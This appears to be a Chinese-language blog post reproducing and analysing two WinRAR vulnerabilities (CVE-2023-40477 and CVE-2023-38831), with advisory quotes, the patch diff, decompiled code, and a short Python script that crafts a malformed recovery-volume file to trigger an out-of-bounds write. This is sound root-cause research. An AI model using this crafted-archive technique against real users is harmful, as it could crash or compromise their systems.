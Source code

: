 +++
title = "WinRAR 最近的 2 个漏洞分析/复现"
date = 2023-09-30
[taxonomies]
tags = ["re"]
+++

其实这个漏洞的公告一出来我就开始进行分析了，只是因为空闲时间的利用非常的差，所以分析的很慢，最多就确认了漏洞修复地点。后来大佬们详细的分析就发出来了，所以这篇文章只能算是复现文章了...

## CVE-2023-40477

从下面的官方公告中可以知道代码修复的地方是在 RAR4 恢复卷的处理代码中。

> Critical Bug: CVE-2023-40477. The vulnerability allows remote attackers to execute arbitrary code on affected installations. User interaction is required to exploit this vulnerability. This is fixed in the RAR4 recovery volume processing code. 

ZDI 的公告也是一样的说法。

> The specific flaw exists within the processing of recovery volumes. The issue results from the lack of proper validation of user-supplied data, which can result in a memory access past the end of an allocated buffer. An attacker can leverage this vulnerability to execute code in the context of the current process.

WinRAR 的 unrar 代码是可以下载的，所以通过 [GitHub 上的代码仓库](https://github.com/pmachapman/unrar) 可以下载和对比不同版本的代码，在 commit [2464dd1c376585f0e4ce51157d50aea358a50bbc](https://github.com/pmachapman/unrar/commit/2464dd1c376585f0e4ce51157d50aea358a50bbc) 可以看到下面的修改。加强了对数据的校验，防止整数溢出导致越界写入。

```diff
diff --git a/recvol3.cpp b/recvol3.cpp
index ecf6dd3..0138d0f 100644
--- a/recvol3.cpp
+++ b/recvol3.cpp
@@ -226,7 +226,7 @@ bool RecVolumes3::Restore(CommandData *Cmd,const wchar *Name,bool Silent)
       if (WrongParam)
         continue;
     }
-    if (P[1]+P[2]>255)
+    if (P[0]<=0 || P[1]<=0 || P[2]<=0 || P[1]+P[2]>255 || P[0]+P[2]-1>255)
       continue;
     if (RecVolNumber!=0 && RecVolNumber!=P[1] || FileNumber!=0 && FileNumber!=P[2])
     {
@@ -238,7 +238,14 @@ bool RecVolumes3::Restore(CommandData *Cmd,const wchar *Name,bool Silent)
     wcsncpyz(PrevName,CurName,ASIZE(PrevName));
     File *NewFile=new File;
     NewFile->TOpen(CurName);
-    SrcFile[FileNumber+P[0]-1]=NewFile;
+
+    // This check is redundant taking into account P[I]>255 and P[0]+P[2]-1>255
+    // checks above. Still we keep it here for better clarity and security.
+    int SrcPos=FileNumber+P[0]-1;
+    if (SrcPos<0 || SrcPos>=ASIZE(SrcFile))
+      continue;
+    SrcFile[SrcPos]=NewFile;
+
     FoundRecVolumes++;
 
     if (RecFileSize==0)
```

使用 Bindiff 找到类似特征，可以在 6.22.0 简体中文版本的 unrar+0x1BC03 (14001BC03) 地址找到修改。

查看源代码可以确认函数从恢复文件中的文件末尾中获取文件分卷数，并存放在 `P` 数组里。经过旧版本的溢出检查后，通过 `P` 数组的运算，往 `RecVolumes3 RecVol` 对象的私有成员 `File *SrcFile[256]` 里写入一个 `File *` 指针。而数组写入地址的索引是 `P[2]+P[0]-1`。

通过创建 RAR 压缩包，调整切分为分卷文本框的值来产生分卷，在“高级 - 分卷”里启用 1 个恢复卷，然后开启脚本修改 RAR 的 .rev 文件，删除一个分卷，通过 `unrar t test_delete.part01.rar` 即可触发漏洞，实现越界写入一个函数指针。这里我对 wildptr.io 的脚本进行小幅修改，让脚本将 P 数组的内容设置为 `[0xf0, 0x00, 0xf0]`。

```python
import zlib
import struct

def calculate_crc32(data):
	crc_value = zlib.crc32(data)
	return struct.pack("<I", crc_value & 0xFFFFFFFF)

with open("test_delete.part01.rev.origin", "rb") as f:
    data = f.read()
    p = bytes([0xf0, 0x00, 0xf0])
    new_data = data[:-7] + p + calculate_crc32(data[:-7] + p)
    with open("test_delete.part01.rev", "wb") as fw:
        fw.write(new_data)

```

在调试器中可以看到数组索引(rax 寄存器)已经越界到 0x1e2(482)，超过了 256，但是这样越界写并不能造成程序崩溃或者任意代码执行，因为写入的地址是往高地址方向越界，在调试器里看高地址空间都没什么重要数据...

![x64dbg0](/images/winrar.png)

后来我阅读了别人的分析文章，发现如果要造成崩溃，或覆盖返回地址的效果，可以用旧风格文件名中填充 `P` 数组，而不是从恢复文件中获得 `P` 数组的值。由于代码逻辑的问题，可以从文件名中读取出负数，从而实现覆盖返回地址。不过即使覆盖了返回地址，也只能造成程序崩溃，应该是没法造成代码执行。

```c
    if (NewStyle)
    {
      /* ... */ 
    }
    else
    {
      wchar *Dot=GetExt(CurName);
      if (Dot==NULL)
        continue;
      bool WrongParam=false;
      for (size_t I=0;I<ASIZE(P);I++)
      {
        do
        {
          Dot--;
        } while (IsDigit(*Dot) && Dot>=CurName+BaseNamePartLength);
        P[I]=atoiw(Dot+1);
        if (P[I]==0 || P[I]>255)
          WrongParam=true;
      }
      if (WrongParam)
        continue;
    }
```

## CVE-2023-38831

这个漏洞应该利用价值比较高，并且网上分析也很多，所以我就简单分析下。下面的代码是判断两文件名字是否相等函数的部分代码，可以看到在用 `wcsncmp` 比较文件文件名时候，只用到了第一个文件名字的长度(变量 `a1_len`)，而没有用到第二个文件名字的长度，而后面半部分代码则是检查文件名字的结尾是否为 '\' '/' 或者 0 字节。这就会导致如果压缩文件中存在相同名字的文件夹和文件时，例如 "test.txt/" 文件夹 "test.txt" 文件，两者的内容都会被释放到临时目录。

```c
    v7 = -1i64;
    a1_len = -1i64;
    do
      ++a1_len;
    while ( a1[a1_len] );
    if ( (unsigned int)(unsigned __int16)a3 - 2 > 2 )
    {
      if ( (a3 & 0x80000000) == 0 )
        neq = sub_1400AF168(a1, a2, a1_len);
      else
        neq = wcsncmp(a1, a2, a1_len);
      if ( !neq )
      {
        v10 = a2[a1_len];
        if ( v10 == '\\' || v10 == '/' || !v10 )
          return 1;
      }
      if ( v3 == 1 )
        return 0;
    }
```

配合上 `ShellExecuteExW` 对文件的处理，就造成了点击一个文件，让另一个文件被调用执行的情况...详细分析请看 [Refs](#refs)

## 总结

CVE-2023-40477 的漏洞应该是可以被避免的，存储数组索引的数据，应该使用 unsigned 类型，并且在通过不可信任的数据，访问数组时候需要检查边界。而 CVE-2023-38831 则是碰上了一个逻辑问题，在比较字符串时候没有比较长度。

## Refs

- [WinRAR 6.23 final released](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=232&cHash=c5bf79590657e32554c6683296a8e8aa)
- [RARLAB WinRAR Recovery Volume Improper Validation of Array Index Remote Code Execution Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-23-1152/)
- [CVE-2023-40477 vulnerability](https://www.rarlab.com/vuln_rev3_names.html)
- [“Game of Rars” – Exploring a New Remote Code Execution Vulnerability in WinRAR with Proof-of-Concept (CVE-2023-40477)](https://wildptr.io/winrar-cve-2023-40477-poc-new-vulnerability-winrar-security-research/)
- [CVE-2023-40477 Root Cause Analysis](https://www.richardosgood.com/posts/cve---2023---4047-root-cause-analysis/)
- [CVE-2023-38831 WinRAR 漏洞分析](https://paper.seebug.org/3036/)
- [Winrar代码执行漏洞(CVE-2023-38831)的原理分析](https://www.cnblogs.com/GoodFish-/archive/2023/09/21/17715977.html)
